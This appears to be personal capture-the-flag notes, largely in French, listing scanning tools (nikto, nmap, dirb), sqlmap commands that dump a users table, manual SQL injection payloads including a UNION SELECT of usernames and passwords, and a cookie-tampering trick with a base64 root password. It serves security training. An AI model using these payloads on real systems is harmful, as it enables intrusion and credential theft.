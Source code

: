
HTTP - Test connexion utilisation du debugguer pour voir les trames réseau. 
	Passer de GET à OPTION pour voir la réponse.

# Tool
nikto -h <URL>
nmap -p 1-65535 -sV -sS -T4 <IP>
dirb 
Encode / Decode : https://www.root-me.org/spip.php?page=outils&inc=code_decode&lang=en
?? https://www.root-me.org/en/Tools/System/pwntools

# Neonazi à l'intérieur. 
Récupération page de login.php.old, mot de passe base64, décode sur base64decode.org
Modification requête POST : Cookie: galerie=root:YXplcnR5NjU0JiY=
Réponse dans "l'inspector" ...
	
# sqlmap	
sqlmap -u "<URL>"
sqlmap -r <BurpFile>
sqlmap -r <BurpFile> --tables
sqlmap -r <BurpFile> -T users --dump

Test SQL injection manual
http://mywebsite.php/login.php?id=1'
http://mywebsite.php/login.php?id='1
	Si la requête renvoi une erreur alors injectable
http://mywebsite.php/login.php?id=1 ORDER BY 15--
	Error out of range should be between 1 and xx
http://mywebsite.php/login.php?id=1 OR 1=1 UNION SELECT username, password, 3, from users

# gcc
apt-install libc6-dev-i386
